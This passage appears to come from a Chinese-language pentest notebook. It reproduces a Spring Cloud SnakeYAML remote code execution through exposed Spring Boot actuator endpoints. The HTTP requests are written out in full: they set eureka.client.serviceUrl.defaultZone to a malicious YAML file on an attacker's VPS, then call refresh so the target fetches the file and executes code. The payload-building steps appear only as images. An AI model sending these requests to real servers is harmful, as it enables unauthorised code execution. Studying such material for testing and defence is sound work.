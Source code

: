 
执行完命令后记得恢复，如果不恢复的话，那么命令就会一直执行，系统也会一直报错，将eureka.client.serviceUrl.defaultZone属性设置为原来的即可。


​    



## Spring cloud SnakeYAML RCE

### 版本影响

目标依赖的 `spring-cloud-starter` 版本 \< 1.3.0



### 复现

本地生成yaml-payload的jar包,命令为

![image-20230623221559474](../../../images/image-20230623221559474.png)

生成利用该jar包的example.yml文件

![image-20230623221123809](../../../images/image-20230623221123809.png)

挂载服务

![image-20230623221249623](../../../images/image-20230623221249623.png)

设置spring.cloud.bootstrap.location 属性为外部恶意 yml 文件 URL 地址

```php
# spring 1.x
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example.yml

# spring 2.x
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example.yml"}
```

![image-20230623220715323](../../../images/image-20230623220715323.png)

refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容

```php
# spring 1.x

POST /refresh
Content-Type: application/x-www-form-urlencoded


# spring 2.x

POST /actuator/refresh
Content-Type: application/json
```
